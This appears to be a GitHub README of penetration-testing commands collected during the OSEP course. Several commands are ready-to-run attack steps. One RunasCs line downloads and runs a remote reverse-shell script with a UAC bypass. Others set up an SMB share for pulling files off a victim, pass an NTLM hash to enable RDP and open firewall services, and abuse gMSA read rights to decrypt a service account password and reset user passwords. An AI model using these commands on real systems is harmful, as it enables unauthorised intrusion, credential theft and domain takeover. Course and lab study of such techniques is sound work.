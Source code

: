 Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# <ins>BloodHound Dacls Abuse</ins>

### <ins>GMSAPasswordReader</ins>

Decrypt the gmsa password

    1. $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    2. $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    3. ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    1. $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    2. $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password

Now we got the credentials Objects, let's open a new session with the privileged user:

    1. Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {net user DomainAdminmUser P@ssw0rd1!}
    2. Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -Force)}

